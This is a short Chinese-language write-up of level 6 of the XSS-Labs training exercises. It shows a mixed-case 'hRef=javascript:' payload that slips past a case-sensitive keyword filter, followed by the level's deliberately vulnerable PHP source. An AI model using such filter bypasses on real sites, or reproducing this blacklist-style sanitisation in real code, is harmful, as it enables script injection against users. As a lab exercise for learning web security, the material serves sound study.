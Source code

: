 ### 大小写绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第六关**

继续使用上一关的 payload 发现 `href` 被过滤了

![](https://pic1.imgdb.cn/item/6813881f58cb8da5c8d638a3.png)

尝试大小写混淆

```
"><a hRef=javascript:alert()>雾島风起時</a><"
```

点击后弹窗

![](https://pic1.imgdb.cn/item/681388a058cb8da5c8d638c7.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level7.php?keyword=move up!"; 
}
</script>
<title>欢迎来到level6</title>
</head>
<body>
<h1 align=center>欢迎来到level6</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);	
$str4=str_replace("src","sr_c",$str3);	
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);	// 只匹配 href，区分大小写
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level6.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>
```

